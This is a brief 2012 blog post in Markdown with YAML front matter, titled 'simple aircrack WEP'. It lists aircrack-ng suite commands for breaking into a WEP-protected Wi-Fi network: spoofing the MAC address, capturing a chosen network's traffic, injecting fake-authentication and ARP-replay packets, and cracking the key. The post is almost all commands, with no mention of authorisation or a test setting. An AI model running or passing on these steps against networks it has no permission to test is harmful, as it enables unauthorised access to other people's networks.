 ```yaml
---
layout: post
title: simple aircrack WEP
date: 2012-08-29 12:32
author: admin
comments: true
categories: [how to, networking, ubuntu, ubuntu]
---
```

<strong>SETUP</strong>
<pre>airmon-ng airmon-ng stop (interface) ifconfig (interface) down macchanger --mac 00:11:22:33:44:55 (interface) airmon-ng start (interface) </pre>

<strong>PICK NET &amp; CAPTURE</strong>
<pre>airodump-ng (interface) airodump-ng -c (channel) -w (file name) --bssid (bssid) (interface)</pre>

<strong>GET MORE PACKET</strong>
<pre>aireplay-ng -1 0 -a (bssid) -h 00:11:22:33:44:55 -e (essid) (interface) aireplay-ng -3 -b (bssid) -h 00:11:22:33:44:55 (interface)</pre>

<strong>CRACK A LACKIN'</strong>
<pre>aircrack-ng -b (bssid) (file name-01.cap)</em></pre>


cheers.
